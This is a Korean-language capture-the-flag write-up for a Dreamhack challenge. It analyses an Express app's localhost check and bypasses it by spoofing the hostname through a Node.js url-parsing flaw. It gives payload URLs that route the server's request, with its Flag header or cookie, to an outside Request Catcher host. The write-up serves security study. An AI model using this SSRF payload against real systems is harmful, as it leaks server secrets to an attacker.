 #web-hacking
# Payload
```
http://host3.dreamhack.games:23044/fetch?url=https://amylo.requestcatcher.com*.localhost
```
# 검색 키워드
- nodejs url parse 취약점
# 해설
## 코드 분석
- index.js 파일을 분석한다.
- 11번째 줄에서 Express 애플리케이션에서 HTTP GET 요청을 처리하는 핸들러를 정의한다.
	- 이 핸들러는 /fetch 경로에 대한 요청을 처리한다.
- 18번째 줄에서 GET 인자로 url 쿼리 파라미터를 urlObject 번수에 저장한다.
- 19번째 줄에서 Node.js 내장 모듈인 url 모듈을 사용하여 URL 파싱을 진행하고, hostname값을 host 변수에 저장한다.
- 21번째 줄에서 host가 `localhost` 와 일치하지 않고, host가 `localhost` 로 끝나지 않으면 `rejected` 메시지를 보내고 끝난다.
	- 혹시라도 에러가 발생하면 `Invalid Url` 문구를 보내고 끝난다.
- 26번째 줄에서 위의 if문을 통과하고 나면, node_fetch 함수를 이용해 GET 메소드로 header에 Flag를 넣어 요청을 보내고, 그 결과를 화면에 보여 준다.

- package.json 파일을 분석한다.
- 여기에서 node-fetch의 버전이 `^2.6.6` 으로 지정되어 있다. 

- url 파싱된 결과가 localhost이면서 실제 요청은 공격자가 원하는 곳으로 보내기 위해서는 url 파싱 중 특수문자를 활용하여 hostname을 속여야 한다. (hostname spoofing)
	- 사용 가능한 특수문자 : `! $ * , ; = `
- hostname을 속여 원하는 곳에 요청을 보내게 하고, 그 요청의 헤더에 포함된 Flag를 가져 오는 것이 핵심이다.

- 여기에서 node.js의 url 라이브러리가 취약하다고 한다. (node.js는 `v19.1.0`, `v18.13.0` 에서 패치되었다고 한다.)
## 익스플로잇
- `/fetch?url=` 뒤에 `localhost:3000` 을 넣어 본다. 맨 처음 나왔던 Hello 메시지가 뜬다.
- 이제 url 호스트네임을 스푸핑해보자.
- 우선 테스트로 google.com에 요청을 보내 보자.
	- Payload : `http://host3.dreamhack.games:20732/fetch?url=https://google.com*.localhost`
	- Result : ![[Pasted image 20240717022606.png]]
	- google로 가긴 간 것 같은데 하위 경로로 `*.localhost` 로 접근하려고 하는 것을 볼 수 있다.
	- 우선 localhost가 아닌 다른 url로 요청을 보내는 데 성공했으니, 헤더 내용을 가져오는데 집중하자.
- 사용할 수 있는 도구는 여러 가지가 있다.
	- 도구 목록
		- [Dreamhack Tools](https://tools.dreamhack.games/)
		- [Request Catcher](https://requestcatcher.com/)
		- 수제 제작 웹서버
	- 드림핵 툴즈나 Request Catcher의 사용법은 크게 다르지 않다.
	- 원하는 url을 입력하고, 생성해 준 URL로 오는 Request의 내용을 볼 수 있게 해 주는 서비스이다.
- Request Catcher를 이용하여 진행하겠다.
	- Payload : `http://host3.dreamhack.games:20732/fetch?url=https://amylo.requestcatcher.com*.localhost`
	- 화면에는 `request caught` 라는 메시지가 표시된다. 정상이다.
	- 이제 Request Catcher에 가 보면 해당 url로 들어온 요청들이 표시된다.![[Pasted image 20240717023754.png]]
	- Cookie에서 Flag를 찾을 수 있다.
# 참조 링크
- [https://toss.tech/article/nodejs-security-contribution](https://toss.tech/article/nodejs-security-contribution)